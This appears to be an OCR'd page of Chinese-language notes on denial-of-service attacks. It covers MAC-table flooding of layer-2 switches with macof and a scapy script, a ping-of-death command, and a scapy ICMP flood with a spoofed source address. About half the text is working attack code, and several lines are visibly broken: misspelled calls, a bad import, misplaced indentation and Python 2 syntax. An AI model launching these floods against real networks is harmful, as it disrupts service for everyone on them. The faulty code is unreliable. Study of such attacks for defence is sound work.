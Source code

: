 # 拒绝服务攻击

#### 数据链路层DOS——二层交换机

```python
攻击目标是二层交换机
目的是让二层交换机以一种不正常的方式工作

在交换机之前，使用的是集线器(用sniffer+网卡混杂即可监听整个局域网)
两者作用相同，均是实现局域网两个主机之间的通信
原理不同
简而言之，集线器没有学习和记忆的能力
集线器的模式是广播，对应主机接收数据包，其余主机抛弃数据包
交换机具有学习和记忆的能力，按照CAM表完成数据包转发
当然，交换机的学习是动态的，CAM表中的表项有一个存活期(通常是5min)
由此，交换机是单播

当填满覆盖CAM表，伪造表项，此时的交换机退化成集线器，即广播数据包
无法正常提供局域网转发
```

```python
macof [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-i interface] [-n times]
**************************************************************
import sys
from scapy.all import *
import time
iface = "eth0"
iflen(sys.argv) >=2:
    iface=sys.argv[1]
while(1):
    packet = Ether(src=RandMac(),dst=RandMac())/IP(src=RancIP(),dst=RandIP()) / ICMP()
    time.sleep(0.5)
    sendp(packet,iface=iface,loop=0)
```

#### 网络层DOS

```python
针对ICMP

死亡之ping   ping 192.168.92.2 -l 65500
同时多台计算机发送ICMP数据包
提高发送ICMP数据包的速度
随机地址向目标不断发送ICMP数据包(flood由正常通信的服务器发起)
向不同地址不断发送以攻击目标的IP地址为发送地址的数据包(flood由正常通信的服务器发起)
```

```python
import sys.random
from scapy.all import sendp,IP,ICMP
if len(sys.argv) < 2:
    print sys.argv[0] + "<spoofed_source_ip> <target>"
    sys.exit(0)
    while (1):
        pdst="%i.%i.%i.%i" % (random.randint(1,254),random.randint(1,254),random.randint(1,254),random.randint(1,254))
        psrc="1.1.1.1"
    sendp(IP(src=psrc,dst=pdst)/ICMP())
```
